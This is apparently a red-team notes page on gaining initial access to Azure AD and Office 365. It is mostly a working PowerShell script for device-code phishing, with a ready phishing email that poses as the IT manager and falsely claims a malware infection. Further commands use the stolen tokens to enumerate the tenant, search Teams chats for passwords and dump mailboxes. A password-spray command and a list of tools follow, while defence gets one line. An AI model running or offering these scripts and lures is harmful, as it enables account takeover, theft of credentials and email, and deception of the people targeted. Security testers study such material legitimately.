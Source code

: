 # Initial Access

### Device Code Authentication Method - Phishing Attack <a href="#device-code-authentication-method-phishing-attack" id="device-code-authentication-method-phishing-attack"></a>

&#x20;

<img src="../../.gitbook/assets/image (9).png" alt="" data-size="original">

The basic idea to utilize device code authentication for phishing is the following.

1. An attacker connects to /devicecode endpoint and sends **client\_id** and **resource**
2. After receiving **verification\_uri** and **user\_code**, create an email containing a link to **verification\_uri** and **user\_code**, and send it to the victim.
3. Victim clicks the link, provides the code and completes the sign in.
4. The attacker receives **access\_token** and **refresh\_token** and can now mimic the victim.

Run the script below;&#x20;

Which is taken from o365 blog in the reference;

```
$body=@{
	"client_id" = "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"resource" =  "https://graph.windows.net"
}


$authResponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" -Body $body
$user_code =    $authResponse.user_code

######################################################################## 
########################################################################
Get-AADIntGlobalAdmins -UserPrincipalName "user@yourexample" -DisplayName "Exercise"

# Invoke the request to get device and user codes
# Send to attacker
# https://microsoft.com/devicelogin login

#Hi!,

#This is an urgent situation. You'r device is affected by malware and we are taking some malicious logs
#from your device. So we have deleted your device from our Azure AD resources.
#By using the code:  you need to reregister to https://microsoft.com/devicelogin and 
#resign all applications again.

#Your IT manager



########################################################################
########################################################################
# Already sent a phishing attack to victim now we are going to next step.

$continue = $true
$interval = $authResponse.interval
$expires =  $authResponse.expires_in

# Create body for authentication requests

$body=@{
	"client_id" =  "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"grant_type" = "urn:ietf:params:oauth:grant-type:device_code"
	"code" =       $authResponse.device_code
	"resource" =   "https://graph.windows.net"
}

# Loop while authorisation is pending or until timeout exceeded

while($continue)
{
	Start-Sleep -Seconds $interval
	$total += $interval

	if($total -gt $expires)
	{
		Write-Error "Timeout occurred"
		return
	}
				
	# Try to get the response. Will give 40x while pending so we need to try&catch

	try
	{
		$response = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0 " -Body $body -ErrorAction SilentlyContinue
	}
	catch
	{
		# This is normal flow, always returns 40x unless successful

		$details=$_.ErrorDetails.Message | ConvertFrom-Json
		$continue = $details.error -eq "authorization_pending"
		Write-Host $details.error

		if(!$continue)
		{
			# Not pending so this is a real error

			Write-Error $details.error_description
			return
		}
	}

	# If we got response, all okay!

	if($response)
	{
		break # Exit the loop

	}
}


#Then start running these commands 
# Enumerate AAD

Get-AADIntUsers -AccessToken $response.access_token | select displayname
Get-AADIntGlobalAdmins -AccessToken $response.access_token
Get-AADIntTenantID -AccessToken $response.access_token
Get-AADIntTenantDetails -AccessToken $response.access_token
get-aadintusermfa -AccessToken $response.access_token
```



**Limitation from Attacker Perspective**

* Victim should authenticate in 15 min
* Attackers logining to system so their logs will be there.

**Preventing**

* Conditional Access (CA)



**Reference**

[![](https://aadinternals.com/images/favicon-16x16.png)Introducing a new phishing technique for compromising Office 365 accounts](https://o365blog.com/post/phishing/)



**Azure AD Red Team First Action**

After getting tokens of user, We can go further to look MSTeam Chats and Outlook Email and search there some credentials.

Here is the step that you can find;

```

#Download TokenTactics from that github page https://github.com/rvrsh3ll/TokenTactics

Import-Module .\TokenTactics.psd1

# It will give you tokens that you will need.
Get-AzureToken -Client MSGraph


# Phish the user and get the tokens of user

RefreshTo-MSTeamsToken -domain <domain.name> 

#After getting phished get all Teams messages
Get-AADIntTeamsMessages -AccessToken $MSTeamsToken.access_token


#Search for a password in MSTeam messages

Get-AADIntTeamsMessages -AccessToken $MSTeamsToken.access_token | Select-String -Pattern Password


Connect-AzureAD -AadAccessToken $response.access_token -AccountId <email@domain.name>

Get-AzureADUser

# That will give you MSGraphToken variable with tokens inside
RefreshTo-MSGraphToken -domain <domain.name>


# Dump all emails with that command $MsGraphToken from RefreshTo-MsGraphToken commands result

Dump-OWAMailboxViaMSGraphApi -AccessToken $MSGraphToken.access_token -mailFolder inbox

# With that you can go and look via browser. 
RefreshTo-SubstrateToken -domain <domain.name>

# It will give you a request, follow instructions and use it in Burp and you will have
# browser view. 

Open-OWAMailboxInBrowser -AccessToken $SubstrateToken.access_token



```



### Password Spray  <a href="#password-spray" id="password-spray"></a>

After finding users on Azure AD we will try to login into their accounts this can be really noisy

so password spraying can be tried at that time. But we should be careful about not doing so many requests since windows blocking and also there is so much noise on the SIEM side.

`PS C:\Tools\MSOLSpray-master> Import-Module .\MSOLSpray.ps1`&#x20;

`PS C:\Tools\MSOLSpray-master> Invoke-MSOLSpray -UserList .\validemails.txt -Password [PASSWORD] -Verbose`

Here is the some tools for testing it.

* [MSOLSpray](https://github.com/dafthack/MSOLSpray) - A password spraying tool for Microsoft Online accounts (Azure/O365)
* [MSOLSpray.py](https://github.com/MartinIngesen/MSOLSpray) - A Python version of the MSOLSpray password spraying tool for Microsoft Online accounts (Azure/O365)
* [o365spray](https://github.com/0xZDH/o365spray) - Username enumeration and password spraying tool aimed at Microsoft O365
* [MFASweep](https://github.com/dafthack/MFASweep) - A tool for checking if MFA is enabled on multiple Microsoft Services Resources
* [adconnectdump](https://github.com/fox-it/adconnectdump) - Dump Azure AD Connect credentials for Azure AD and Active Directory

